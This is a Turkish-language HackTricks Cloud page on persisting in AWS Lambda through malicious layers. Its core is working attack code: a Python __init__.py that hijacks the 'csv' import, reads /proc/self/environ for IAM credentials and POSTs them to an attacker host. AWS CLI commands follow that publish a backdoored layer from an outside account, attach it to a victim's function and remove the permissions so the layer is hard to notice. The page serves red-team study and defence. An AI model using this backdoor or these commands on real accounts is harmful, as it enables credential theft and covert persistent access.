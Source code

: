 # AWS - Lambda Katmanları Kalıcılığı

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

## Lambda Katmanları

Bir Lambda katmanı, **ek kod** veya diğer içeriği içerebilen bir .zip dosyası arşividir. Bir katman, kütüphaneler, [özel çalışma zamanı](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), veri veya yapılandırma dosyaları içerebilir.

Bir fonksiyonda **beş katmana kadar** dahil edilebilir. Bir katmanı bir fonksiyona dahil ettiğinizde, içerikler yürütme ortamında `/opt` dizinine çıkarılır.

Varsayılan olarak, oluşturduğunuz katmanlar AWS hesabınıza **özeldir**. Bir katmanı diğer hesaplarla **paylaşabilir** veya katmanı **genel** yapabilirsiniz. Eğer fonksiyonlarınız, farklı bir hesabın yayınladığı bir katmanı tüketiyorsa, fonksiyonlarınız katman sürümünü **silindikten sonra veya katmana erişim izniniz iptal edildikten sonra** kullanmaya devam edebilir. Ancak, silinen bir katman sürümünü kullanarak yeni bir fonksiyon oluşturamaz veya mevcut fonksiyonları güncelleyemezsiniz.

Bir konteyner görüntüsü olarak dağıtılan fonksiyonlar katmanları kullanmaz. Bunun yerine, görüntüyü oluştururken tercih ettiğiniz çalışma zamanını, kütüphaneleri ve diğer bağımlılıkları konteyner görüntüsüne paketlersiniz.

### Python yükleme yolu

Lambda'da Python'ın kullanacağı yükleme yolu aşağıdaki gibidir:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
**İkinci** ve üçüncü **pozisyonların** **lambda katmanları** tarafından dosyalarının açıldığı dizinleri kontrol edin: **`/opt/python/lib/python3.9/site-packages`** ve **`/opt/python`**

{% hint style="danger" %}
Bir saldırgan, kullanılan bir lambda **katmanını geri kapı olarak kullanmayı başarırsa veya bir tane eklerse ve bir ortak kitaplık yüklendiğinde keyfi kod yürütülüyorsa**, her lambda çağrısıyla kötü amaçlı kodu yürütebilir.
{% endhint %}

Bu nedenle, gereksinimler şunlardır:

* Kurbanın kodu tarafından **yüklenecek kitaplıkları kontrol edin**
* Lambda katmanlarıyla birlikte çalışacak bir **proxy kitaplık oluşturun** ve **özgün** kitaplığı **yürütün**.

### Önceden yüklenmiş kitaplıklar

{% hint style="warning" %}
Bu teknikleri kötüye kullanırken bir zorlukla karşılaştım: Bazı kitaplıklar, python çalışma zamanında kodunuzun yürütüldüğünde **zaten yüklenmiş** durumdadır. `os` veya `sys` gibi şeyler bekliyordum, **ancak hatta `json` kitaplığı bile yüklendi**.\
Bu kalıcılık tekniğini kötüye kullanmak için, kodun yürütüldüğünde **yeni bir kitaplık yüklemesi gerekmektedir**.
{% endhint %}

Aşağıdaki gibi bir python koduyla lambda içindeki python çalışma zamanında **önceden yüklenmiş kitaplıkların listesini** elde etmek mümkündür:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
Ve işte **liste** (zaten `os` veya `json` gibi kütüphanelerin olduğunu kontrol edin)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Ve bu, **lambda'nın varsayılan olarak yüklenmiş olduğu kütüphanelerin listesi**dir: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Katmanı Geri Kapı

Bu örnekte hedeflenen kodun **`csv`**'yi içe aktardığını varsayalım. **`csv` kütüphanesinin içe aktarımını geri kapılayacağız**.

Bunu yapmak için, lambda tarafından yüklenen bir yol olan **`/opt/python/lib/python3.9/site-packages`** içinde **`__init__.py`** adlı bir dosya ile **csv** adında bir dizin oluşturacağız.\
Ardından, lambda çalıştırıldığında ve **csv** yüklenmeye çalışıldığında, **`__init__.py` dosyamız yüklenecek ve çalıştırılacak**.\
Bu dosya şunları yapmalıdır:

* Payload'ımızı çalıştırın
* Orijinal csv kütüphanesini yükleyin

Her ikisini de şu şekilde yapabiliriz:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Ardından, bu kodu **`python/lib/python3.9/site-packages/__init__.py`** yolunda içeren bir zip oluşturun ve bir lambda katmanı olarak ekleyin.

Bu kodu [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) adresinde bulabilirsiniz.

Entegre edilmiş payload, lambda konteynerinin ilk kez çağrıldığında veya lambda konteynerinin sıfırlanmasından sonra (kod değişikliği veya soğuk lambda) IAM kimlik bilgilerini bir sunucuya gönderecektir, ancak aşağıdaki gibi **diğer teknikler** de entegre edilebilir:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Harici Katmanlar

Dikkat edilmesi gereken nokta, **harici hesaplardan lambda katmanları kullanmanın mümkün** olmasıdır. Dahası, bir lambda, izinlere sahip olmasa bile harici bir hesaptan bir katman kullanabilir.\
Ayrıca, bir lambdanın sahip olabileceği **maksimum katman sayısı 5'tir**.

Bu nedenle, saldırganın bu tekniklerin kullanışlılığını artırmak için şunları yapması mümkündür:

* Kullanıcının mevcut bir katmanını backdoorlamak (hiçbir şey harici değil)
* **Kendi hesabında** bir **katman oluşturmak**, **kurban hesabına erişim** vermek için katmanı kullanmasına izin vermek, katmanı kurbanın Lambda'sında **yapılandırmak** ve **izinleri kaldırmak**.
* **Lambda**, hala **katmanı kullanabilecek** ve **kurbanın** katmanın kodunu indirmenin kolay bir yolunu (lambda içinde bir ters kabuk almadıkça) **olmayacak**.
* Kurban, **`aws lambda list-layers`** ile kullanılan harici katmanları görmeyecektir.

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>AWS hackleme becerilerini sıfırdan kahraman seviyesine kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
